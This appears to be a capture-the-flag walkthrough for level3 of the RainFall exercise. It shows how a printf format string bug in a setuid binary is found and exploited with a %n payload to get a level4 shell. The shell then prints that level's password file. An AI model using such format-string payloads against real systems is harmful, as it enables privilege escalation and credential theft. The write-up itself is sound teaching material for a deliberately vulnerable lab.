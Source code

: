 level3
======

*	We spawn with a [level3](source/level3) executable
	```console
	level3@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
	level3@RainFall:~$ ./level3
	█
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level3@192.168.29.4:~/level3 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level3
	Enter the number of the executable file you want to analyze: 1
	```
*	My script created the [disas.s](source/disas.s) file which will make understanding this code a bit easier. We can see the main function calls the `p` one. This function uses `gets` but once again it looks protected
*	But hold on there are some interesting stuff here. Let's summarize the code :
	-	`fgets()` a string
	-	uses `printf()` to instantly print it out
	-	`cmp` the global variable `m` (`0x804988c`) with `0x40 (64)`
	-	if not equal jump to `leave`
	-	else continue
	-	then puts `0x8048600` in `eax` -> (`0x8048600: "Wait what?!\n"`)
	-	`fwrite()` it
	-	call to `system()` with `esp` of value -> (`0x804860d: "/bin/sh"`)
	I also used `Ghidra` to decompile it in `C` so that we can understand it better -> [level3.c](source/level3.c)
*	Important thing here is also that `printf()` is vulnerable to [format string exploit](https://owasp.org/www-community/attacks/Format_string_attack) !
	```console
	level3@RainFall:~$ ./level3 
	%x %x %x
	200 b7fd1ac0 b7ff37d0
	level3@RainFall:~$ ./level3 
	aaaa %x %x %x %x %x %x
	aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
	Here we can see our string `aaaa` at fourth position `61616161`
*	So we want to make the condition succeed, we need to make sure the content of m is of 64 bytes
*	We will be using the `%n` modifier which we can specify the address like so `%[address]$n`
*	Now let's not forget the little endian rule with the address of `m` and try to replace `aaaa` with it
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test | ./level3
	� 200 b7fd1ac0 b7ff37d0 804988c
	```
	Ok it worked
*	We now need to calculate our format string :
	-	address of m -> 4 bytes
	-	random data -> 60 bytes
	not too hard here
*	We now got everything we need, let's and this level :
	```console
	level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/test
	level3@RainFall:~$ cat /tmp/test - | ./level3
	�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
	Wait what?!
	whoami
	level4
	cat /home/user/level4/.pass
	b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
	```